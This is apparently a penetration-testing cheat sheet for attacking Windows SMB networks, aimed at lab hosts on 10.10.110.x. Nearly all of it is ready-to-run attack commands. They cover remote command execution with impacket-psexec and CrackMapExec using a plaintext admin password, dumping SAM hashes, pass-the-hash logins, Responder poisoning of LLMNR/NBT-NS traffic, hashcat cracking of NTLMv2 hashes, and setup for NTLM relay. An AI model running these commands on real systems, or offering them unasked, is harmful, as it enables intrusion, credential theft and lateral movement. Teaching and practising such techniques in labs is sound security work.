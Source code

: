 ### RCE

#### Logging in with impacket-psexec
```Shell
impacket-psexec administrator:'Password123!'@10.10.110.17
```

The same options apply to `impacket-smbexec` and `impacket-atexec`

#### Running commands using CrackMapExec
```Shell
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

*Note: If the `--exec-method` is not defined, CrackMapExec will try to execute the atexec method, if it fails you can try to specify the `--exec-method` smbexec.*

#### Enumerating Logged-on Users with CrackMapExec
```Shell
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

#### Extracting Hashes from SAM Database using CrackMapExec
```Shell
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

#### Pass-the-Hash (PtH) with CrackMapExec
```Shell
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

### Forced Authentication Attacks

#### Intercepting LLMNR and NBT-NS traffic with Responder
```Shell
responder -I ens33
```

*Note: If you notice multiples hashes for one account this is because NTLMv2 utilizes both a client-side and server-side challenge that is randomized for each interaction. This makes it so the resulting hashes that are sent are salted with a randomized string of numbers. This is why the hashes don't match but still represent the same password.*

#### Cracking NTLM hashes with Hashcat
```Shell
hashcat -m 5600 hash.txt rockyou.txt
```

#### If hash can't be cracked - relay the captured hash to another machine using impacket-ntlmrelayx. First, set SMB to `OFF` in the responder config file
```Shell
cat /etc/responder/Responder.conf | grep 'SMB ='
```
